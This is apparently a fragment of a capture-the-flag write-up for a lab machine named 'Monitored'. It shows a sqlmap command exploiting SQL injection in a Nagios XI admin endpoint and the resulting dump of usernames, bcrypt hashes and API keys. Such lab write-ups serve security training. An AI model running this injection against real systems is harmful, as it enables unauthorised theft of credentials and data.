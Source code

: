 ![image-20250322203812186](Monitored/image-20250322203812186.png)

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi -T xi_users -C name,password,username,api_key --dump
```

![image-20250322204150962](Monitored/image-20250322204150962.png)

```
name: Nagios Administrator 
password: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C 
username: nagiosadmin
api_key:IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

name:svc
password:$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK 
username:svc
api_key:2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK
```
